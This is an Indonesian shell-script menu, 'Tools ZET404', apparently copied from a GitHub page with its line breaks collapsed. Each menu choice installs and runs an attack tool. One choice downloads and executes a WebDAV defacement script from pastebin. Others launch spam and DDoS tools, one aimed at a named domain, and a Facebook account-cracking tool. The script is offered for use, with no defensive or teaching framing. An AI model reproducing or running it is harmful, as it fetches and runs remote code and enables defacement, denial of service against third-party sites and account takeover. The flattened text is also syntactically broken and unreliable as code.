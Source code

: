 # shuvo
clear echo "\033[34;1m Selamat datang di Tools ZET404" | lolcat echo "\033[35;1m Tools Ini Masih Dalam Perkembangan Karena Masih Beta" | lolcat echo "\033[36;1m Thanks To" | lolcat echo "\033[32;1m All My Friends" | lolcat echo "[1] Deface Webdav" | lolcat echo "[2] LiteSpam" | lolcat echo "[3] Ddos Hammer" | lolcat echo "[4] Ddos Xerxes" | lolcat echo "[5] TorsHammer" | lolcat echo "[6] Lazymux" | lolcat echo "[7] Hack FB" | lolcat echo "[8] Install WPScan" | lolcat echo "\033[35;1m Silahkan Di Pilih Yang Mau Di install | lolcat read -p "ZET404" pilihan if [ $pilihan = "1" ] || [ $pilihan = "1" ] then apt update && upgrade apt install python2 pip2 install urllib3 chardet certifi idna requests apt install openssl curl pkg install libcurl ln -s /sdcard cd sdcard mkdir webdav cd webdav curl -k -O https://pastebin.com/raw/HnVyQPtR mv HnVyQPtR webdav.py python2 webdav.py cd cd /sdcard/webdav python2 webdav.py fi if [ $pilihan = "2" ] || [ $pilihan = "2" ] then apt update apt upgrade pkg install toilet pkg install php pkg install git git clone https://github.com/4L13199/LITESPAM cd LITESPAM sh LITESPAM.sh fi if [ $pilihan = "3" ] || [ $pilihan = "3" ] then pkg update pkg upgrade pkg install python pkg install git git clone https://github.com/cyweb/hammer cd hammer python hammer.py python hammer.py -s fi if [ $pilihan = "4" ] || [ $pilihan = "4" ] then apt install git apt install clang git clone https://github.com/zanyarjamal/xerxes ls cd xerxes ls clang xerxes.c -o xerxes ls ./xerxes fi if [ $pilihan = "5" ] || [ $pilihan = "5" ] then pkg update pkg install git Pkg install tor pkg install python2 git clone https://github.com/dotfighter/torshammer.git ls cd torshammer python2 torshammer.py -T -t seword.com fi if [ $pilihan = "6" ] || [ $pilihan = "6" ] then apt update && apt upgrade apt install git git clone https://github.com/Gameye98/Lazymux cd Lazymux ls python2 lazymux.py fi if [ $pilihan = "7" ] || [ $pilihan = "7" ] then apt update && apt upgrade pkg install python2 git pip2 install mechanize git clone https://github.com/pirmansx/mbf ls cd mbf python2 MBF.py fi if [ $pilihan = "8" ] || [ $pilihan = "8" ] then apt update && apt upgrade apt install git apt install ruby git clone https://github.com/wpscanteam/wpscan/ cd wpscan chmod 777 wpscan.rb gem install bundle bundle install -j5 ruby wpscan.rb fi
